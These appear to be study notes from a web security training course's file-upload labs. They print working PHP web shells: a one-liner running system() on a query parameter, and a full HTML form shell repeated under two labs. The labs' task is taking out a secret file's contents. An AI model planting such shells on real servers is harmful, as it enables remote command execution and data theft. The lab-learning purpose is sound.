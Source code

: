 Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:
`<?php echo system($_GET['command']); ?>`

This script enables you to pass an arbitrary system command via a query parameter as follows:
`GET /example/exploit.php?command=id HTTP/1.1 `
### Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter` 

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
### Lab: Web shell upload via Content-Type restriction bypass

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
